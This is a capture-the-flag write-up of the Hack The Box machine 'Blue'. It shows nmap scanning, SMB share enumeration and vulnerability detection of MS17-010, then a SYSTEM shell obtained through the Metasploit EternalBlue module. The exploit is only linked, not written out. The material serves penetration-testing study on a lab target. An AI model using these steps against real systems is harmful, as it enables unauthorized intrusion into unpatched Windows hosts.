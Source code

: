 ```yaml
---
title: "Blue - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Blue
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Blue
![](https://kar0nx.github.io/assets/images/writeup/52e077ae40899ab8b024afd51cb29b1c.webp)

## Reconnaissance

IP: 10.10.10.40
## NMAP

```
nmap -T4 -p- -A 10.10.10.40
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 05:31 EST
Stats: 0:01:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 05:33 (0:00:52 remaining)
Nmap scan report for 10.10.10.40
Host is up (0.031s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/19%OT=135%CT=1%CU=34202%PV=Y%DS=2%DC=T%G=Y%TM=67B
OS:5B389%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S
OS:%TS=7)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O
OS:5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6
OS:=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O
OS:%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G
OS:%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-19T10:33:37
|_  start_date: 2025-02-18T14:33:28
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-02-19T10:33:38+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   30.96 ms 10.10.14.1
2   31.32 ms 10.10.10.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.05 seconds
```

Nmap scan shows that there is 3 open ports 135 - RPC, 139 - NetBios and 445 - SMB

## SMB

Let's check for shares on smb port 445:
```
smbclient -L ////10.10.10.40//Users
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219114006.png)

```
smbclient //10.10.10.40/Users 
```

after searching available folders I don't find anything useful
Let's check for vulns, in this example we will use nmap script

```
nmap -p 445 -script vuln 10.10.10.40
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 05:44 EST
Nmap scan report for 10.10.10.40
Host is up (0.031s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 24.90 seconds

```

We can spot that machine is vulnerable to MS17-010 Eternal Blue.
## Gaining Access

https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/
This is pretty straight forward.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219115247.png)

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 1588 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users>whoami
whoami
nt authority\system

```

Now we can grab the flags